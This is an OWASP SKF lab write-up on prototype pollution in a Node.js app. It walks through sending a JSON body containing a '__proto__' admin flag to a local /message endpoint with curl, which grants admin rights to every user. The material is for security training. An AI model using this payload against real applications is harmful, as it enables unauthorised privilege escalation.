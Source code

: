 # Prototype Pollution

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:js-prototype-pollution
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:js-prototype-pollution
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

JavaScript is prototype-based: when new objects are created, they carry over the properties and methods of the prototype “object”, which contains basic functionalities such as toString, constructor and hasOwnProperty.

Object-based inheritance gives JavaScript the flexibility and efficiency that web programmers have come to love – but it also makes it vulnerable to tampering.

Malicious actors can make application-wide changes to all objects by modifying object, hence the name prototype pollution.

Interestingly, attackers don’t even need to directly modify object – they can access it through the ‘**proto**’ property of any JavaScript object. And once you make a change to object, it applies to all JavaScript objects in a running application, including those created after tampering.

Let's open the application, we have a login screen:

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/nodejs/Prototype-Pollution/1.png)

Loggin in with user/user.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/nodejs/Prototype-Pollution/2.png)

We see this user has no Admin privileges, also we have a feature to send a message to an admin. Let's use this and check the request

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/nodejs/Prototype-Pollution/3.png)

Post request with email and username as expected.
We also noticed in the homepage a functionality to create a new user.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/nodejs/Prototype-Pollution/5.png)

Login with the newly created user.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/nodejs/Prototype-Pollution/6.png)

## Exploitation

Let's try our prototype pollution payload in the /message route.

```json
{
  "__proto__": { "admin": true },
  "email": "evil@proto.pollution",
  "msg": "You have been hacked!"
}
```

To make it easier let's put this payload in a file called evil.json.
Now lets use to curl to request the application with evil.json

```text
curl -H "content-type: application/json" -d@evil.json http://localhost:5000/message
```

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/nodejs/Prototype-Pollution/4.png)

We get a response back from the server. Let's refresh the page to see if it worked.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/nodejs/Prototype-Pollution/7.png)

Success! We now have a user with admin privileges!

If we create another user we see the new user will also have admin set to True.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/nodejs/Prototype-Pollution/8.png)

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/nodejs/Prototype-Pollution/9.png)

## Additional sources

{% embed url="https://portswigger.net/daily-swig/prototype-pollution-the-dangerous-and-underrated-vulnerability-impacting-javascript-applications" %}
